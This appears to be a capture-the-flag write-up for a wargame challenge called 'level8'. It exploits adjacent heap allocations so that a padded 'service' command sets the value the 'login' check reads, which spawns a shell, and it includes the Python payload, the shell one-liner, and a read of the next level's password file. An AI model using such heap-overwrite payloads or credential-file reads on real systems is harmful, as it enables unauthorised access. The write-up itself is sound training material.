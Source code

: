 # Level 8

## Initial Context

- One file: `level8`

## Solving the Challenge

The executable is a REPL, meaning it waits for an input line and do thing accordingly.

By rewriting the code in C, we can see that 4 commands are possible:
- auth
- reset
- service
- login

If run using `ltrace`, we can see that the `auth` command only allocate `4 bytes`, followed another allocation if we do the `service` command.

```bash
$ ltrace ./level8
...
printf("%p, %p \n", (nil), (nil))           = 14
fgets("auth abc\n", 128, 0xb7fd1ac0)        = 0xbffff6e0
malloc(4)                                   = 0x0804a008 # first
strcpy(0x0804a008, "abc\n")                 = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil))       = 18
fgets("service abc\n", 128, 0xb7fd1ac0)     = 0xbffff6e0
strdup("service abc\n")                     = 0x0804a018 # second
printf("%p, %p \n", 0x804a008, 0x804a0180)  = 22
...
```

These two allocation are only `16 bytes` off (or `0x10`).

The `login` command check the memory allocated by `auth + 32 bytes`. But the `auth` command has a restriction of `31` bytes.
We have to find another way.

Since `service`'s allocation is only `16 bytes` after, we can fill it with another `16 bytes` to be at `auth + 32 bytes`.

The program will give us a shell if the value is anything except zero.

So here is the payload:

```python
# first command
print "auth ";

# second command
print "service" + "A" * 16;

# third command
print "login"
```

Let's save it in a file and send it to the vulnerable program:

```bash
$ python -c 'print "auth "; print "service" + "A" * 16; print "login"' > /tmp/exploit8
$ cat /tmp/exploit8 - | ./level8
whoami
level9
cat /home/user/level9/.pass
<flag>
```
